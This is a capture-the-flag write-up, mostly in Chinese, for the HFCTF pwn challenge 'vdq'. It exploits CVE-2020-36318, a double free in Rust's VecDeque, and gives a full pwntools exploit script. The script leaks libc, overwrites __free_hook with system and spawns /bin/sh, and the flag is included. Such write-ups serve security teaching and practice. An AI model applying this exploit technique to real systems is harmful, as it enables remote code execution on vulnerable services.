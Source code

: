 # Pwn | vdq (2 solves)

## Description

Just a rust program

[Attachments](./to_player/)

## Solution

[CVE-2020-36318](https://www.cvedetails.com/cve/CVE-2020-36318/): Rust 1.48.0 VecDeque::make_contiguous() 存在double free漏洞。[最小demo](https://github.com/rust-lang/rust/issues/79808)

关键数据结构

```rust
struct Note {
    idx: Option<usize>, // + 0x00 Option/None, real usize
    msg: Vec<u8>,       // + 0x10 ptr cap len
}                       // + 0x28
```

利用思路：double free后利用Vec结构体中的ptr指针改`__free_hook`到`system`

```python
#!/usr/bin/python3

from pwn import *
context.arch='amd64'

p=remote('127.0.0.1',9999)

pay = '''[
    "Add", "Add", "Add", "Remove", "Remove", "Remove",
    "Add", "Add", "Remove", "Remove",
    "Add", "Add", "Remove", "Remove",
    "Add", "Add", "Add", "Add", "Remove", "Remove", "Remove", "Remove",

    "Add", "Add", "Add", "Add", "Add", "Add", "Add",
    "Remove", "View", "Remove", "Remove", "Remove", "Remove",
    "Archive", "Remove",
    "View",
    "Append",
    "Archive",
    "Append",
    "Add"
]
$'''

p.sendlineafter('!\n',pay)

for i in range(16-1):
    p.sendlineafter(': \n','')

p.sendlineafter(': \n','1'*0x410)
p.sendlineafter(': \n','')
p.sendlineafter(': \n','')

[p.recvuntil('Cached notes:\n') for i in range(2)]
[p.recvuntil(' -> ') for i in range(6)]

leak=0
for i in range(8):
    leak_byte=int(p.recvn(2),0x10)
    leak+=leak_byte<<(i*8)
base=leak-(0x7f57fd2b3ca0-0x7f57fcec8000)
p.success('base:'+hex(base))
__free_hook=base+0x7ff2888cb8e8-0x7ff2884de000
p.success('__free_hook:'+hex(__free_hook))
system=base+0x7ffff7617420-0x7ffff75c8000
p.success('system:'+hex(system))

p.sendlineafter(': \n',flat([0,0,__free_hook-0xa,0x3030303030303030]))
p.sendlineafter(': \n',p64(system))
p.sendlineafter(': \n','/bin/sh\0')
p.interactive()
```

## Flag

`HFCTF{Congrats!_You_are_really_a_master_of_Rust_v3dzPDa5isyoQCZEYG2OAnuLhlMXTjeHp1WtrBk80wqbJS7x}`

## Side Note

- vdq是VecDeque的缩写
- Rust [CVE-2020-36318](https://www.cvedetails.com/cve/CVE-2020-36318/) 利用的赛题首见于WMCTF2021中[M4tsuri师傅](https://github.com/M4tsuri)所设计的赛题`RuScheduler`
，随后在[Hack.lu CTF 2021](https://www.anquanke.com/post/id/258083#h3-2)也出现过。本题完全由WMCTF2021-RuScheduler改编而来，向原作者致敬。
- 本题二进制对应的[源代码](./source/src/main.rs)